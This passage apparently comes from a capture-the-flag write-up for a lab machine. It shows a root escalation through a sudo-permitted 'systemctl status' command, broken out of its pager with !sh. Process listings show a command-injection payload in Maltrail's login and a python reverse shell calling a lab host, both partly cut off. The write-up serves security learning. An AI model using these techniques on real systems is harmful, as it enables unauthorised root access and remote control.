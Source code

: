 Click on the link to learn more about it:  [https://kb.iu.edu/d/amyi](https://kb.iu.edu/d/amyi){:target="_blank"}

**We run the sudo -l command** to check what sudo commands are allowed to be invoked by puma.

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$

```

sudo -l output shows  that puma user is able to run this command /usr/bin/systemctl status trail.service 

And systemclt requires root permisions in order to be executed, so it means puma user is able to run systemcl status without the need to provide root's password

Another search on internet, and we find this article:

[https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/){:target="_blank"}

Just we need to run the command with sudo and then break it with !sh, as systemctl is running as root, that will return a root shell

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service 
trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2023-12-21 14:30:30 UTC; 4h 6min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 895 (python3)
      Tasks: 50 (limit: 4662)
     Memory: 74.2M
     CGroup: /system.slice/trail.service
             ├─ 895 /usr/bin/python3 server.py
             ├─1262 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1267 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1270 sh
             ├─1271 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.1>
             ├─1272 /bin/sh
             ├─1310 sudo systemctl status trail.service
             ├─1311 systemctl status trail.service
             ├─1312 pager
             ├─1314 sh -c /bin/bash -c sh
             ├─1315 sh
             ├─1427 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1428 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1431 sh

             ├─1836 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.1>
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```